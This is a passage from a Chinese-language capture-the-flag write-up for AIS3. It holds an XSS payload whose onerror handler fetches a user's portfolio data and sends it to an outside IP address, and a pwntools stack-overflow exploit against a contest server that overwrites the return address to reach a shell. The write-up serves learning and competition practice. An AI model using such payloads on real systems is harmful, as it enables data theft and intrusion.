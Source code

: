 ``` python
```

payload
``` html
<h5>Hello!</h5>
I am a <span style="color: red;">new</span> user.

<img src=x onerror='fetch("/api/portfolio").then(res => res.json()).then(data => {fetch(`http://10.113.193.20?${new URLSearchParams(data.data)}`)})'/>
```

送去給 admin
![image](https://user-images.githubusercontent.com/57281249/239951160-ce6aab2d-05dc-4a7a-a1bf-d611321778b6.png)

然後就收到 flag 了
![image](https://user-images.githubusercontent.com/57281249/239951318-cdb64a68-3280-4d77-89e7-068574d94b4f.png)

### Flag
`AIS3{<img src=x onerror='fetch(...}`

## ManagementSystem
### 題目

![image](https://user-images.githubusercontent.com/57281249/239945264-fe5fdba3-c448-4cb5-a992-c3e0e517a49e.png)

### 解題
1. IDA 打開
2. 人真好有給 shell code
![image](https://user-images.githubusercontent.com/57281249/239945579-c0bb2a2a-acb4-44a1-877d-45215b54d609.png)
3. 每個 user 的 function 找一遍後發現 `delete_user` 有用 gets，可以 stack overflow，先讓他跑到 `"Invalid index."` 感覺問題比較少。
![image](https://user-images.githubusercontent.com/57281249/239946309-5ab98d0b-aa5e-4a18-ae77-4e6f49c20f30.png)
4. 找 shell code 的位置
![image](https://user-images.githubusercontent.com/57281249/239947071-567d01ea-a12f-422b-86ce-5e64132ec7b9.png)
5. exploit
```python
import pwn
import re
import sys

r = pwn.remote('chals1.ais3.org', 10003)

print(r.recvrepeat(timeout=1).decode())
r.sendline(b'3')
print(r.recvrepeat(timeout=1).decode())
r.sendline(b'-1' + b'x'*(8*13-2) + int('40131B', 16).to_bytes(3, 'little'))

while True:
    print(r.recvrepeat(timeout=1).decode(), end='')
    print('> ', end='')
    r.send(input().encode())
#    r.send(sys.stdin.buffer.read())
```
